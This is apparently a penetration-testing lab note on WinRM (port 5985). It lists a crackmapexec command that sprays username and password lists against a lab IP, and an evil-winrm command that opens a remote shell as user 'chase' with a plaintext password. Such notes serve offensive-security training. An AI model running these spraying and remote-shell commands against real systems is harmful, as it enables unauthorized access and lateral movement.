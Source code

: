```yaml
---
tags:
  - p5985
  - evil-winrm
  - cme-winrm
---
```

## Enumeration
- cme to enumerate and test user/pass connection for winrm auth
	- `cme winrm 10.129.96.157 -u users.txt -p passwords.txt`

## Lateral Movement
- evil-winrm
	- `evil-winrm -i 10.129.96.157 -u chase -p "Q4)sJu\Y8qz*A3?d"`
